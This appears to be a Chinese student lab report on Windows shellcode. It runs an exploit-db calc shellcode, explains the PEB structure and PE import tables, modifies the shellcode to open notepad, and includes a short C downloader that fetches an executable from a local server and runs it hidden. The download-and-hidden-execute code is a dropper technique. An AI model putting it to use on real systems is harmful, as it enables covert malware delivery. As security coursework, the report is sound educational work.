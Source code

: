 ## shellcode实验报告 

#### 实验要求 

1. 把"https://www.exploit-db.com/shellcodes/48116"这个链接中shellcode能够成功运行
2. 能从汇编源码编译通过并成功dump
3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
4. 修改shellcode功能为运行记事本程序notepad. exe
5. (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

#### 实验过程

1. "https://www.exploit-db.com/shellcodes/48116"链接中shellcode能够成功运行 

![](img/打开计算器.png) 

2. 能从汇编源码编译通过并成功dump 

![](img/执行结果1.png) 

3.  自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理 

* PEB结构体
```
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged;
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  PVOID                         Reserved4[3];
  PVOID                         AtlThunkSListPtr;
  PVOID                         Reserved5;
  ULONG                         Reserved6;
  PVOID                         Reserved7;
  ULONG                         Reserved8;
  ULONG                         AtlThunkSListPtr32;
  PVOID                         Reserved9[45];
  BYTE                          Reserved10[96];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved11[128];
  PVOID                         Reserved12[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```

* PE文件结构 

![](img/PE文件格式.jpg)

4. 修改shellcode功能为运行记事本程序notepad. exe

* 修改源码

![](img/修改.png)

* 从汇编源码编译通过并成功dump

![](img/执行结果2.png)

* 打开记事本

![](img/记事本.png)

5. 通过c语言编程使用原生APT UrlDownloadToFileA下载可执行文件project.exe

* 代码

```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibraryA("urlmon.dll");
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "http://127.0.0.1:8000/shellcode.exe", "a.exe", 0, NULL);
	WinExec("a.exe", SW_HIDE);
}
```

* 打开端口

![](img/打开端口.png) 

* 成功运行

![](img/运行.png)

* 查看目录已生成a.exe

![](img/a.exe.png) 

#### 问题及解决

* download.c运行成功但没有生成a.exe也不弹出记事本，关闭主机防火墙后问题解决
